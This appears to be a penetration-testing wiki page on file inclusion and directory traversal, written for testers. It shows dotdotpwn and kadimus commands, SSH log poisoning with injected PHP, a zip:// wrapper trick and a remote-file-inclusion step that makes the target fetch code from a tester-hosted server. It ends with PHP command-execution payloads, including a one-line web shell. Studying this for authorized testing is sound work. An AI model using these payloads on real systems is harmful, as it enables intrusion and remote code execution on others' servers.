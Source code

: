 # 🛠️ File inclusion

## Theory

Many web applications manage files and use server-side scripts to include them. When input parameters \(cookies, GET or POST parameters\) used in those scripts are insufficiently validated and sanitized, these web apps can be vulnerable to file inclusion.

LFI/RFI \(Local/Remote File Inclusion\) attacks allow attackers to read sensitive files, include local or remote content that could lead to RCE \(Remote Code Execution\) or to client-side attacks such as XSS \(Cross-Site Scripting\).

Directory traversal \(a.k.a. path traversal, directory climbing, backtracking, the dot dot slash attack\) attacks allow attackers to access sensitive files on the file system, outside the web server directory. File inclusion attacks can leverage a directory traversal vulnerability to include files with a relative path.

## Practice

Testers need to identify input vectors \(parts of the app that accept content from the users\) that could be used for file related operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

* **Local File Inclusion** : inclusion of a local file \(in the web server directory\) using an absolute path
* **LFI + directory traversal** : inclusion of a local file \(in the web server directory or not\) by "climbing" the server tree with `../` \(relative path\)
* **Remote File Inclusion** : inclusion of a remote file \(not on the server\) using an URI

The tool [dotdotpwn](https://github.com/wireghoul/dotdotpwn) \(Perl\) can help finding and exploiting directory traversal vulnerabilities by fuzzing the web app. However, manual testing is usually more efficient.

```bash
# With a request file where /?argument=TRAVERSAL (request file must be in /usr/share/dotdotpwn)
dotdotpwn.pl -m payload -h $RHOST -x $RPORT -p $REQUESTFILE -k "root:" -f /etc/passwd

# Generate a wordlist in STDOUT that can be used by other fuzzers (ffuf, gobuster...)
dotdotpwn -m stdout -d 5
```

The tool [kadimus](https://github.com/P0cL4bs/Kadimus) \(C\) can help finding and exploiting File Inclusion vulnerabilities. However, manual testing is usually more efficient.

```bash
kadimus --user-agent "PENTEST" -u '$URL/?parameter=value'
```

Depending on the environment, file inclusions can sometimes lead to RCE \(Remote Code Execution\) by including a local file containing code previously injected by the attacker or a remote file containing code that the server can execute.

Local file inclusions can sometimes be combined with other vulnerabilities to achieve code execution

* directory traversal
* null-byte injection
* unrestricted file upload
* log poisoning

### 🛠️ LFI to RCE \(via logs poisoning\)

For instance, the tester can try to log in with SSH using a crafted login. On a Linux system, the login will be echoed in `/var/log/auth`. By exploiting a Local File Inclusion, the attacker will be able to make the crafted login echoed in this file interpreted by the server.

```bash
ssh '<?php phpinfo(); ?>'@$TARGET
curl --user-agent "PENTEST" $URL/?parameter=/var/log/auth.log&cmd=id
```

🛠️ Introduce other examples, like apache session logs

* /var/log/apache/access.log
* /var/log/apache/error.log
* /var/log/httpd-access.log
* /var/log/vsftpd.log
* /var/log/sshd.log
* /var/log/mail

### 🛠️ LFI to RCE \(via phpinfo\)

### 🛠️ LFI to RCE \(via file upload\)

### 🛠️ LFI to RCE \(via php wrappers\)

* php://file
* php://filter
* php://input
* expect://
* data://text/plain;base64,command

### 🛠️ LFI to RCE \(via /proc\)

* /proc/self/environ
* /proc/self/fd

### 🛠️ LFI to RCE \(via php session\)

🛠️ Introduce php wrappers

PHP wrappers can be combined with a [file upload](unrestricted-file-upload.md) to achieve RCE.

1. Upload a `.zip` file containing a PHP code execution script \(`rce.php`\)
2. Trigger the code execution by requesting `http://some.website/?page=zip://path/to/file.zip%23rce.php`.

### RFI to RCE

The tester can create a `phpinfo.php` containing `<?php phpinfo(); ?>` and use a simple HTTP server so that the target application can fetch it. When exploiting the RFI to include the `phpinfo.php` file, the tester server will send the plaintext PHP code to the target server that should execute the code and show the phpinfo in the response.

{% hint style="warning" %}
If the the tester server used to host the `phpinfo.php` file can interpret PHP, it will. The tester will not achieve code execution on the target server but on his own instead. A simple HTTP server will do.
{% endhint %}

```bash
# Create phpinfo.php
echo '<?php phpinfo(); ?>' > phpinfo.php

# Start a web server
python3 -m http.server 80

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=http://tester.server/phpinfo.php'
```

If the phpinfo has been successfully printed in the response, the tester can engage a more offensive approach by trying to execute code with one of the following payloads.

{% hint style="info" %}
As code execution functions can be filtered, the phpinfo testing phase is required to assert that arbitrary PHP code is included and interpreted.
{% endhint %}

```php
<?php system('whoami'); ?>
<?php exec('whoami'); ?>
<?php passthru('whoami'); ?>
<?php shell_exec('whoami'); ?>
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

## References

{% embed url="https://www.acunetix.com/websitesecurity/directory-traversal" caption="" %}

{% embed url="https://portswigger.net/web-security/file-path-traversal" caption="" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/05-Authorization\_Testing/01-Testing\_Directory\_Traversal\_File\_Include.html" caption="Directory traversal and File Include" %}

{% embed url="https://owasp.org/www-community/attacks/Path\_Traversal" caption="Testing for Directory traversal" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/07-Input\_Validation\_Testing/11.2-Testing\_for\_Remote\_File\_Inclusion.html" caption="Testing for Remote File Inclusion" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/07-Input\_Validation\_Testing/11.1-Testing\_for\_Local\_File\_Inclusion.html" caption="Testing for Local File Inclusion" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal" caption="" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" caption="" %}

